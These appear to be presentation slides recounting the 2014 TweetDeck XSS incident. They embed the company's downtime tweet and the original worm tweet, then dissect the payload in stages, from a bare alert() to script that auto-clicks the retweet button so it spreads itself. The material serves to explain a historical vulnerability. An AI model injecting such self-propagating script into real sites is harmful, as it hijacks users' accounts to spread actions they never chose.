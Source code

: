 Note:

- It wasn't long before someone tweeted this.

---

## Unplanned Downtime

<blockquote class="twitter-tweet" lang="en"><p>We&#39;ve temporarily taken TweetDeck services down to assess today&#39;s earlier security issue. We&#39;ll update when services are back up.</p>&mdash; TweetDeck (@TweetDeck) <a href="https://twitter.com/TweetDeck/status/476770732987252736">June 11, 2014</a></blockquote>

---

## So...what happened?

<blockquote class="twitter-tweet" lang="en"><p>&lt;script class=&quot;xss&quot;&gt;
$(&#39;.xss&#39;).parents().eq(1).find(&#39;a&#39;).eq(1).click();
$(&#39;[data-action=retweet]&#39;).click();
<br>alert(&#39;XSS in Tweetdeck&#39;)&lt;/script&gt;<img src="https://abs.twimg.com/emoji/v1/72x72/2665.png" style="border: none; top: 30px; position: relative;"></p>&mdash; *arrrrndy (@derGeruhn) <a href="https://twitter.com/derGeruhn/status/476764918763749376">June 11, 2014</a></blockquote>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

---

&lt;script>

&nbsp;

&nbsp;

alert('XSS in Tweetdeck');

&lt;/script><img src="https://abs.twimg.com/emoji/v1/72x72/2665.png" style="border: none; top: 30px; position: relative;">
---

&lt;script>

&nbsp;

$('[data-action=retweet]').click();

alert('XSS in Tweetdeck');

&lt;/script><img src="https://abs.twimg.com/emoji/v1/72x72/2665.png" style="border: none; top: 30px; position: relative;">

---

&lt;script class="xss">

&nbsp;

$('[data-action=retweet]').click();

alert('XSS in Tweetdeck');

&lt;/script><img src="https://abs.twimg.com/emoji/v1/72x72/2665.png" style="border: none; top: 30px; position: relative;">

---